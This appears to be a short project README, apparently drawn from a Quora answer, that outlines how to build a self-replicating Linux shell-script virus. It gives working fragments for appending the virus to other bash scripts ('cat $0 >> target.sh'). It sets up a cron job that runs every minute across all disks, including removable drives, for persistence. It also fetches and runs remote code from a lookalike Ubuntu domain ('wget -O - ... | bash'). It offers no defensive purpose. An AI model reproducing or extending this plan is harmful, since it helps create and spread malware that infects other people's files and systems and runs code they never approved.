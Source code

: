 https://www.quora.com/How-can-I-make-a-virus-from-Linux/answer/Aravind-Reddy-V

How:

* Write a shell script that recursively searches for shell scripts in a disk. [.sh extension or #!/bin/bash at start]
* Decide on a very particular string. When a file is a bash script, search for  the decided on string and if it’s not found, add all the contents of your script to the target script. cat $0 >> target.sh 
* The string is so that we don't have multiple copies of our script in a file.
* Now, whenever the infected script is executed, our code is also run.
* Add the script to user’s cronjob and make it run once every minute and run on all disks including removable drives. You can programatically add a cronjob (https://stackoverflow.com/questions/4880290/how-do-i-create-a-crontab-through-a-script).
Now, you don't want your code to be sticking out of the infected file and be detected. Keep the bulk of your code remote.
wget -O - http://fake-apt-ubuntu-com.com/file | bash

Development scheduled to start post 14th of December, 2017.
